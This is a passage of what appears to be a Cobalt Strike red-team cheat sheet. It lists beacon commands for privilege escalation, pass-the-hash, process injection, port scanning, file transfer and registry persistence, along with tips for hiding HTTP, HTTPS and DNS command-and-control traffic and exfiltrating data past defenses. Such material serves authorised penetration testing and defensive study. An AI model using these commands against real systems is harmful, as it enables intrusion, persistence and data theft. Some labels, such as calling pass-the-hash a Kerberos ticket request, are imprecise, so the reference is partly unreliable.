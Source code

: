 - **Privilege Escalation**:
  - **Get SYSTEM**:
    ```bash
    beacon> elevate getsystem
    ```
  - **Kerberos Ticket Request (Pass-the-Hash)**:
    ```bash
    beacon> pth <domain> <username> <hash>
    ```

### 🔗 C2 Communication Techniques

1. **HTTP**:
   - HTTP-based beaconing is commonly used for ease of network egress and blending with legitimate traffic.
   - **Setup**: Configure in Cobalt Strike’s “Listeners” section. Set polling interval and jitter.

2. **HTTPS**:
   - HTTPS traffic is encrypted, providing an additional layer of stealth.
   - **Setup**: Use a trusted SSL certificate to prevent detection by network defenses.

3. **DNS**:
   - DNS beacons use DNS requests to exfiltrate data and receive commands, bypassing most network firewalls.
   - **Setup**:
     - Configure DNS listener.
     - Set DNS “beaconing” with a high jitter to blend with legitimate DNS traffic.

### 🛠 Useful Cobalt Strike Commands

- **Inject into Process**:
  ```bash
  beacon> inject <process_id> <listener>
  ```

- **Port Scan**:
  ```bash
  beacon> portscan 192.168.1.0/24
  ```

- **File Download/Upload**:
  - Download:
    ```bash
    beacon> download <path_to_file>
    ```
  - Upload:
    ```bash
    beacon> upload <path_to_file>
    ```

- **Persistence**:
  - Registry-based persistence:
    ```bash
    beacon> persist -r
    ```

---